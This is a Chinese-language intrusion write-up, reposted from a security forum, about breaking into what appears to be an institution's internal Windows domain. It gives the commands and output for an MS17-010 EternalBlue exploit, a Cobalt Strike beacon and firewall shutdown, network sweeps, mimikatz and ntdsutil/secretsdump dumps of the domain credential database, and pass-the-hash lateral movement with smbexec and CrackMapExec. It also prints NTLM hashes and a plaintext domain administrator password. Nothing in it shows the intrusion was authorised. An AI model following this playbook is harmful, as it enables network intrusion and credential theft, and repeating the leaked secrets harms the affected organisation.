check.bat IPms17010.bat IP +系统版本go.bat IP 位数C:\Users\good>cd C:\Users\good\Desktop\nw\ms17-010\C:\Users\good\Desktop\nw\ms17-010>check.bat 10.10.10.41[+] SMB Touch started[*] TargetIp 10.10.10.41[*] TargetPort 445[*] RedirectedTargetIp (null)[*] RedirectedTargetPort 0[*] NetworkTimeout 60[*] Protocol SMB[*] Credentials Anonymous[*] Connecting to target...[+] Initiated SMB connection[+] Target OS Version 6.1 build 7601Windows 7 Professional 7601 Service Pack 1[*] Trying pipes...[-] spoolss - Not accessible (0xC0000022 - NtErrorAccessDenied)[-] browser - Not accessible (0xC0000022 - NtErrorAccessDenied)[-] lsarpc - Not accessible (0xC0000022 - NtErrorAccessDenied)[-] No pipes accessible[Not Supported]ETERNALSYNERGY - Target OS version not supported[Not Vulnerable]ETERNALROMANCE - Named pipe required for exploit[Vulnerable]ETERNALBLUE - DANEETERNALCHAMPION - DANE[*] Writing output parameters[+] Target is vulnerable to 2 exploits[+] Touch completed successfullyC:\Users\good\Desktop\nw\ms17-010>MS17-010_.bat 10.10.10.41[*] MS17-010 Exploit // lu4n.com[*] Connecting to target for exploitation.[+] Connection established for exploitation.[*] Pinging backdoor...[+] Backdoor returned code: 10 - Success![+] Ping returned Target architecture: x86 (32-bit)[+] Backdoor is already installed -- nothing to be done.[*] CORE sent serialized output blob (2 bytes):0x00000000 08 01 ..[*] Received output parameters from CORE[+] CORE terminated with status code 0x00000000C:\Users\good\Desktop\nw\ms17-010>go.bat 10.10.10.41 64Architecture: 64 is not a valid value.Architecture: 64 is not a valid value.^C终止批处理操作吗(Y/N)? yC:\Users\good\Desktop\nw\ms17-010>go.bat 10.10.10.41 x64[+] Selected Protocol SMB[.] Connecting to target...[+] Connected to target, pinging backdoor...[+] Backdoor returned code: 10 - Success![+] Ping returned Target architecture: x86 (32-bit) - XOR Key: 0x894EDE86SMB Connection string is: Windows 7 Professional 7601 Service Pack 1Target OS is: 7 x86Target SP is: 1[+] Backdoor installed[-] DLL Architecture is: 64 bitError sending wrong architecture DLL to target[-] DLL NOT built[+] Selected Protocol SMB[.] Connecting to target...[+] Connected to target, pinging backdoor...[+] Backdoor returned code: 10 - Success![+] Ping returned Target architecture: x86 (32-bit) - XOR Key: 0x894EDE86SMB Connection string is: Windows 7 Professional 7601 Service Pack 1Target OS is: 7 x86Target SP is: 1[+] Backdoor installed[-] DLL Architecture is: 64 bitError sending wrong architecture DLL to target[-] DLL NOT builtC:\Users\good\Desktop\nw\ms17-010>go.bat 10.10.10.41 x86[+] Selected Protocol SMB[.] Connecting to target...[+] Connected to target, pinging backdoor...[+] Backdoor returned code: 10 - Success![+] Ping returned Target architecture: x86 (32-bit) - XOR Key: 0x894EDE86SMB Connection string is: Windows 7 Professional 7601 Service Pack 1Target OS is: 7 x86Target SP is: 1[+] Backdoor installed[+] DLL built[.] Sending shellcode to inject DLL[+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Backdoor returned code: 10 - Success![+] Command completed successfully
成功进入目标机器，本打算使用hta继续弹一个beacon给cs，但是尝试了几次不好使。
使用密码登录3389，但是没有登录成功，3389确实开启，这里关闭防火墙。
C:\Windows\system32>netsh advfirewall set allprofiles state offnetsh advfirewall set allprofiles state offOk.
成功连接，连接上去之后，发现有杀毒，信任beacon或者添加c盘信任。

同样的方式拿下3，2，4，41。

横向移动
good14 beacon> shell arp -a[*] Tasked beacon to run: arp -a[+] host called home, sent: 37 bytes[+] received output:介面: 10.10.10.2 --- 0xc网际网路网址 实体位址 类型10.10.10.1 6c-2b-59-7f-1e-74 动态10.10.10.3 6c-2b-59-7f-1b-3c 动态10.10.10.4 00-0c-29-f7-4e-92 动态10.10.10.5 10-98-36-b0-ed-ad 动态10.10.10.6 18-03-73-2c-46-9d 动态10.10.10.8 00-0c-29-57-cd-5d 动态10.10.10.10 00-11-32-5c-f9-0a 动态10.10.10.11 00-10-18-06-09-eb 动态10.10.10.12 00-10-18-1a-8c-08 动态10.10.10.13 00-10-18-04-03-3c 动态10.10.10.14 00-10-18-1a-66-4e 动态10.10.10.17 00-0c-29-3c-30-ea 动态10.10.10.19 20-47-47-82-31-a0 动态10.10.10.20 20-47-47-82-31-a2 动态10.10.10.21 98-90-96-bc-4f-6c 动态10.10.10.22 98-90-96-bc-f2-09 动态10.10.10.23 98-90-96-bc-ed-92 动态10.10.10.25 18-66-da-2c-e0-de 动态10.10.10.26 54-bf-64-6f-68-46 动态10.10.10.27 e4-54-e8-92-95-f1 动态10.10.10.28 54-bf-64-6f-68-28 动态10.10.10.29 54-bf-64-6f-6b-04 动态10.10.10.30 88-d7-f6-ae-e4-01 动态10.10.10.33 e4-54-e8-92-9b-e7 动态10.10.10.35 74-d4-35-6f-bc-12 动态10.10.10.38 98-90-96-b6-ec-95 动态10.10.10.39 88-d7-f6-ae-e3-6b 动态10.10.10.41 98-90-96-b6-e6-e3 动态10.10.10.42 e4-54-e8-92-a5-68 动态10.10.10.44 18-03-73-ca-e4-5f 动态10.10.10.47 08-97-98-aa-b4-98 动态10.10.10.48 54-bf-64-6f-68-26 动态10.10.10.49 00-d0-17-70-c1-03 动态10.10.10.50 00-d0-17-70-c0-cc 动态10.10.10.51 42-08-5b-6a-25-29 动态10.10.10.56 78-45-c4-b9-b4-c6 动态10.10.10.61 18-66-da-2c-e5-7f 动态10.10.10.62 18-66-da-2d-04-25 动态10.10.10.63 18-66-da-2d-01-1c 动态10.10.10.65 20-47-47-25-a7-66 动态10.10.10.66 20-47-47-25-a7-58 动态10.10.10.68 20-47-47-25-a8-98 动态10.10.10.69 20-47-47-25-aa-37 动态10.10.10.72 54-bf-64-01-52-a0 动态10.10.10.75 d8-d0-90-1d-92-d8 动态10.10.10.78 d8-d0-90-1d-96-1c 动态10.10.10.80 d8-d0-90-1d-96-1b 动态10.10.10.82 10-7d-1a-0d-d5-1b 动态10.10.10.84 08-9e-01-f3-f8-be 动态10.10.10.85 f0-d4-e2-f7-62-83 动态10.10.10.89 08-00-37-f0-2d-71 动态10.10.10.90 00-11-32-aa-ab-42 动态10.10.10.91 54-bf-64-6f-6a-fe 动态10.10.10.95 64-00-6a-0b-f4-5c 动态10.10.10.100 00-0c-29-19-e7-fa 动态10.10.10.102 54-bf-64-6a-be-41 动态10.10.10.104 64-00-6a-0b-f0-11 动态10.10.10.105 64-00-6a-0b-76-a2 动态10.10.10.106 64-00-6a-0b-ed-89 动态10.10.10.111 6c-2b-59-f4-49-3b 动态10.10.10.114 54-bf-64-6a-be-12 动态10.10.10.116 54-bf-64-6f-6a-0c 动态10.10.10.117 ec-d6-8a-3f-ba-84 动态10.10.10.118 ec-d6-8a-4a-b2-19 动态10.10.10.121 54-bf-64-6a-c2-e7 动态10.10.10.126 54-bf-64-6a-be-4e 动态10.10.10.133 54-bf-64-6a-be-03 动态10.10.10.134 54-bf-64-6f-6a-0a 动态10.10.10.136 54-bf-64-6f-15-f7 动态10.10.10.142 54-bf-64-6a-bd-f0 动态10.10.10.143 54-bf-64-6a-c1-66 动态10.10.10.144 54-bf-64-6a-c1-47 动态10.10.10.145 54-bf-64-6f-14-e7 动态10.10.10.146 54-bf-64-6f-6a-03 动态10.10.10.152 54-bf-64-6f-6a-2a 动态10.10.10.154 54-bf-64-6f-6a-0e 动态10.10.10.155 54-bf-64-6a-be-04 动态10.10.10.156 54-bf-64-6f-6a-29 动态10.10.10.159 c0-8a-cd-5f-5b-47 动态10.10.10.160 ec-d6-8a-3f-ba-36 动态10.10.10.161 54-bf-64-6a-be-1f 动态10.10.10.162 54-bf-64-6f-14-4d 动态10.10.10.163 54-bf-64-6a-be-a5 动态10.10.10.164 54-bf-64-6f-14-57 动态10.10.10.165 54-bf-64-6a-be-40 动态10.10.10.166 54-bf-64-6a-c2-e4 动态10.10.10.175 54-bf-64-6f-69-f2 动态10.10.10.176 54-bf-64-6a-be-5a 动态10.10.10.179 54-bf-64-6a-be-16 动态10.10.10.180 54-bf-64-6f-14-79 动态10.10.10.182 54-bf-64-6a-bd-f2 动态10.10.10.192 18-03-73-2c-48-dc 动态10.10.10.195 54-bf-64-6f-16-96 动态10.10.10.196 e4-54-e8-92-9b-ac 动态10.10.10.231 24-31-84-28-4a-34 动态10.10.10.232 80-38-96-91-96-7d 动态10.10.10.250 28-84-fa-dc-d5-46 动态10.10.10.253 00-1d-aa-17-b1-40 动态10.10.10.254 00-50-7f-c7-d8-b0 动态10.10.11.6 18-03-73-21-70-71 动态10.10.11.13 84-8f-69-fa-49-74 动态10.10.11.17 00-0c-29-98-ae-8f 动态10.10.11.19 00-0c-29-a3-bf-27 动态10.10.11.20 00-1d-aa-89-9e-80 动态10.10.11.77 00-1d-aa-46-3d-60 动态10.10.11.100 18-66-da-2d-02-0c 动态10.10.11.102 48-4d-7e-d0-b6-18 动态10.10.11.103 18-66-da-37-91-7e 动态10.10.11.105 18-66-da-22-f1-db 动态10.10.11.106 48-4d-7e-de-2d-0c 动态10.10.11.107 50-9a-4c-3f-c5-82 动态10.10.11.110 50-9a-4c-40-aa-6f 动态10.10.11.111 54-bf-64-a3-d3-47 动态10.10.11.112 18-66-da-22-a7-d9 动态10.10.11.113 48-4d-7e-de-09-94 动态10.10.11.114 48-4d-7e-dd-00-3e 动态10.10.11.116 18-66-da-1f-64-db 动态10.10.11.117 48-4d-7e-f1-6c-8c 动态10.10.11.118 48-4d-7e-f1-30-ee 动态10.10.11.120 48-4d-7e-f1-2d-9e 动态10.10.11.121 18-66-da-22-f5-13 动态10.10.11.122 18-66-da-22-f3-1f 动态10.10.11.124 18-66-da-22-f4-7b 动态10.10.11.125 64-00-6a-76-3b-ce 动态10.10.11.127 48-4d-7e-e4-b7-1c 动态10.10.11.129 48-4d-7e-d1-ab-78 动态10.10.11.130 48-4d-7e-dd-32-d4 动态10.10.11.131 48-4d-7e-d1-5b-1e 动态10.10.11.133 18-66-da-22-f2-35 动态10.10.11.134 54-bf-64-a3-e0-63 动态10.10.11.135 64-00-6a-8d-47-cb 动态10.10.11.137 48-4d-7e-e3-e7-4b 动态10.10.11.138 18-66-da-22-f4-5d 动态10.10.11.140 48-4d-7e-df-84-bb 动态10.10.11.141 50-9a-4c-3f-ff-bd 动态10.10.11.142 18-66-da-22-ab-16 动态10.10.11.143 48-4d-7e-df-96-99 动态10.10.11.144 48-4d-7e-f2-4d-2d 动态10.10.11.147 48-4d-7e-cf-88-f4 动态10.10.11.148 64-00-6a-91-8b-ff 动态10.10.11.248 64-00-6a-5d-9d-c7 动态10.10.11.249 64-00-6a-74-a8-20 动态10.10.11.254 00-50-7f-e0-78-18 动态10.10.11.255 ff-ff-ff-ff-ff-ff 静态169.254.92.3 54-bf-64-20-66-1d 动态169.254.222.47 18-66-da-2c-e0-f1 动态224.0.0.2 01-00-5e-00-00-02 静态224.0.0.22 01-00-5e-00-00-16 静态224.0.0.251 01-00-5e-00-00-fb 静态224.0.0.252 01-00-5e-00-00-fc 静态239.254.1.2 01-00-5e-7e-01-02 静态239.255.102.18 01-00-5e-7f-66-12 静态239.255.255.250 01-00-5e-7f-ff-fa 静态
发现还有11个网段。
使用fcan扫描一下具体信息
beacon> shell C:\Windows\TAPI\f.exe -h 10.10.11.1/24 -pwdf C:\Windows\TAPI\pass.txt -user Administrator -domain WEGO -o C:\Windows\TAPI\1.txt[+] received output:10.10.11.99 (Windows 7 Professional 7601 Service Pack 1)NetInfo:[*]10.10.11.8[->]Win7x64Pro[->]10.10.11.8NetInfo:[*]10.10.11.99[->]backuwego[->]10.10.11.99[->]10.30.10.199NetInfo:[*]10.10.11.6[->]stufiles[->]10.10.11.610.10.11.8 (Windows 7 Professional 7601 Service Pack 1)WebTitle:http://10.10.11.6:80 403 IIS 8.0 閰喟敦�航炊 - 403.14 - ForbiddenNetInfo:[*]10.10.11.7[->]digireadweb[->]10.10.11.710.10.11.7 (Windows Server (R) 2008 Standard 6003 Service Pack 2)WebTitle:http://10.10.11.95:443 400 400 Bad RequestWebTitle:http://10.10.11.95:80 200 NoneSMB:10.10.11.6:445:WEGO\Administrator jo6ek6vul3vm,6WebTitle:http://10.10.11.14:80 200 " + ID_EESX_Welcome + "WebTitle:http://10.10.11.15:80 200 " + ID_EESX_Welcome + "WebTitle:https://10.10.11.14:443 200 " + ID_EESX_Welcome + "WebTitle:https://10.10.11.15:443 200 " + ID_EESX_Welcome + "WebTitle:https://10.10.11.16:443 200 " + ID_EESX_Welcome + "WebTitle:http://10.10.11.16:80 200 " + ID_EESX_Welcome + "WebTitle:http://10.10.11.10:80 200 " + ID_EESX_Welcome + "WebTitle:https://10.10.11.10:443 200 " + ID_EESX_Welcome + "WebTitle:http://10.10.11.7:80 200 �����梯��訾�撠���-嚚��梯��扳��霈�嚚�WebTitle:https://10.10.11.95:443 200 None[+] received output:WebTitle:https://10.10.11.77:443 200 Vigor 登入页面WebTitle:http://10.10.11.77:80 200 Vigor 登入页面WebTitle:https://10.10.11.254:443 200 Vigor Login PageWebTitle:https://10.10.11.20:443 200 Vigor 登入页面WebTitle:http://10.10.11.254:80 200 Vigor Login PageWebTitle:https://10.10.11.80:443 200 CN8000A - Cover[+] received output:scan end
扫描smb服务看一下
beacon> shell C:\Windows\TAPI\f.exe -h 10.10.11.1/24 -pwdf C:\Windows\TAPI\pass.txt -user Administrator -domain WEGO -o C:\Windows\TAPI\1.txt -p 445 -m smbicmp alive hosts len is: 2110.10.11.7:445 open10.10.11.8:445 open10.10.11.6:445 open10.10.11.99:445 openSMB:10.10.11.6:445:WEGO\Administrator jo6ek6vul3vm,6
机器很多，尝试哈希传递攻击。

登录域控制器10.2的3389使用迷你卡姿，抓去所有域内的hash。
beacon> shell c:\Windows\TAPI\mimikatz.exe ""privilege::debug"" ""lsadump::lsa /patch full"" exit >>c:\Windows\TAPI\log1.txt或者使用cs插件
ID : 00000e07 (3591)User : ws4311LM : 54191cf4166bc549aad3b435b51404eeNTLM : 4790310f070043b5d1709a30aede1a27RID : 00000e08 (3592)User : ws4312LM : 03b93594f7afee8caad3b435b51404eeNTLM : 5dab331d3681f85c85503c9437cfc03bRID : 00000e09 (3593)User : ws4313LM : d4cb20e652df2393aad3b435b51404eeNTLM : b6a56cab9d2568151015094e90cbd21dRID : 00000e0a (3594)User : ws4314LM : 687ac937560351a6aad3b435b51404eeNTLM : d7a7fca890e9f3c1d435bd5fc0caf327RID : 00000e0b (3595)User : ws4315LM : 0a19188cf464dda2aad3b435b51404eeNTLM : 6f748524eda9a94cb30dd323695b092eRID : 00000e0c (3596)User : ws4316LM : 7784d6e4bdf4f440aad3b435b51404eeNTLM : 3cb0a4c08952437b6311db01eedd3c45
密码很多，这里就截取一部分。
导出域成员hash
SAM数据库中保存的信息进行提取,全面获取系统中的密码信息，还要对SAM数据库中保存的信息进行提取，导出当前系统中所有本地用户的hash。
C:\Windows\system32>ntdsutil snapshot "activate instance ntds" create quit quitntdsutil: snapshot快照: activate instance ntds使用中执行个体已设定为 "ntds"。快照: create正在建立快照...快照集 {1dc812ae-3ae6-475b-bb67-ccafe028ae69} 已经成功产生。快照: quitntdsutil: quitC:\Windows\system32>ntdsutil snapshot "mount {1dc812ae-3ae6-475b-bb67-ccafe028ae69}" quit quitntdsutil: snapshot快照: mount {1dc812ae-3ae6-475b-bb67-ccafe028ae69}快照 {3f3a24b3-ce4f-4096-852a-0b3864a8909d} 已挂接为 C:\$SNAP_202012062103_VOLUMEC$\快照: quitntdsutil: quitC:\Windows\system32>copy C:\$SNAP_202012062103_VOLUMEC$\Windows\NTDS\ntds.dit c:\ntds.dit复制了 1 个档案。C:\Windows\system32>最后删除快照C:\Windows\system32>ntdsutil snapshot "unmount {1dc812ae-3ae6-475b-bb67-ccafe028ae69}" quit quitntdsutil: snapshot快照: unmount {1dc812ae-3ae6-475b-bb67-ccafe028ae69}快照 {3f3a24b3-ce4f-4096-852a-0b3864a8909d} 已卸載。快照: quitntdsutil: quitC:\Windows\system32>ntdsutil snapshot "delete {1dc812ae-3ae6-475b-bb67-ccafe028ae69}" quit quitntdsutil: snapshot快照: delete {1dc812ae-3ae6-475b-bb67-ccafe028ae69}快照 {3f3a24b3-ce4f-4096-852a-0b3864a8909d} 已經刪除。快照: quitntdsutil: quitC:\Windows\system32>
导出sam和system：
C:\Windows\system32>reg save hklm\sam sam.hiv操作顺利完成。
C:\Windows\system32>reg save hklm\sam sam.hiv本地使用secretsdump.py，导出hash
➜ Public python3 1.py -ntds ntds.dit -system system.hiv LOCALImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation[*] Target system bootKey: 0xaf91815108821533b8b5c1365be697c1[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)[*] Searching for pekList, be patient[*] PEK # 0 found and decrypted: e28acd8770d422291bab9e2a9f8901d4[*] Reading and decrypting hashes from ntds.ditAD2$:15142:aad3b435b51404eeaad3b435b51404ee:ef72a0d5642a9234a14daf517e4a9ccc:::AD3-OLD$:16625:aad3b435b51404eeaad3b435b51404ee:ef5035822b6ada38890c81bced3e7427:::AD1$:16630:aad3b435b51404eeaad3b435b51404ee:216f5e93e84c580d8c7d54995b82f35d:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::TsInternetUser:1000:22c206eac925d8cb606c5c8235eade10:65b4ce0675d0bb69277b75712e409528:::IUSR_MAIL:1004:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::IWAM_MAIL:1005:a7aa223e7443a354630461ad9692aa95:0792a2872e4c3fe838d2d35a985e4e6f:::Administrator:500:e74b5db312ea77404726d0d0bb05c458:a9398c8a95dbe6801f280d2cfb9c76de:::
哈希传递攻击与基于IPC的横向移动PTH仍然是基于IPC远程连接实现的。
smbexec 可以通过文件共享（admin$，c$，ipc$，d$）在远程系统中执行命令。
目标系统必须开放445端口并且C$共享。
smbexec.py -hashes :<hash> 域/域用户名@192.168.10.2需要根据上面我们在域控制器中抓取的密码，找到对应ip的对应主机名和哈希，才能使用smbexe，这里找到AD3的对应关系。
➜ Downloads python3 smbexec.py administrator@10.10.10.3 -hashes :a9398c8a95dbe6801f280d2cfb9c76deImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation[!] Launching semi-interactive shell - Careful what you executeC:\Windows\system32>whoamint authority\systemC:\Windows\system32>➜ NW python3 smbexec.py Administrator@10.10.10.41 -hashes :a9398c8a95dbe6801f280d2cfb9c76deImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation[!] Launching semi-interactive shell - Careful what you executeC:\Windows\system32>➜ NW python3 smbexec.py administrator@10.10.10.38 -hashes :a9398c8a95dbe6801f280d2cfb9c76deImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation[!] Launching semi-interactive shell - Careful what you executeC:\WINDOWS\system32>
接着尝试3389等，中马，反弹cs就行。
使用CrackMapExec实现Hash传递：
SMB 10.10.10.5 445 DATABASE [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.88 445 NONE [*] FXNICOS 0.1 (name:) (domain:) (signing:False) (SMBv1:True)SMB 10.10.10.100 445 CARD100 [*] Windows 7 Professional 7601 Service Pack 1 (name:CARD100) (domain:xx.xx.x x.xx) (signing:False) (SMBv1:True)SMB 10.10.10.2 445 AD1 [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.20 445 FILES2 [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.101 445 PERSONNEL-3060 [*] Windows 10.0 Build 17134 x64 (name:PERSONNEL-3060) (domain:xx.xx.x x.xx) (signing:False) (SMBv1:False)SMB 10.10.10.19 445 FILES2 [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.22 445 ACADEMIC [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.103 445 LIB-3020-83 [*] Windows 7 Professional 7601 Service Pack 1 (name:LIB-3020-83) (domain:xx.xx.x x.xx) (signing:False) (SMBv1:True)SMB 10.10.10.3 445 AD2 [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.4 445 AD3 [+] xx.xx.x x.xx\administrator a9398c8a95dbe6801f280d2cfb9c76de (Pwn3d!)SMB 10.10.10.39 445 ASUS-500G4-PC [-] xx.xx.x x.xx\administrator:a9398c8a95dbe6801f280d2cfb9c76de STATUS_NETLOGON_NOT_STARTED
这里注意该工具可以看到主机ip与用户名的对应关系，结合之前拿到的hash文件:1.txt.ntds，把用户名、主机ip、用户hash就结合起来了。这里截取一部分`。
STPC-37$:7840:aad3b435b51404eeaad3b435b51404ee:24eaa29232d5eab4d560f748bc4649b4:::STPC-33$:7847:aad3b435b51404eeaad3b435b51404ee:6ca428fed76b726f1656f3606cb0b2c9:::STPC-16$:7819:aad3b435b51404eeaad3b435b51404ee:ca8ff27d7b093aff95922a0b88e77f5c:::
然后使用smbexec.py一个一个尝试。
网断还有个11段，太菜了，等学习了一下在打。
简单看了一下，有web服务、ftp等。
这里推荐一个师傅写的内网扫描器：
https://github.com/shadow1ng/fscan
推荐阅读：
点赞，转发，在看
文章来源：先知社区
作者：暮秋初九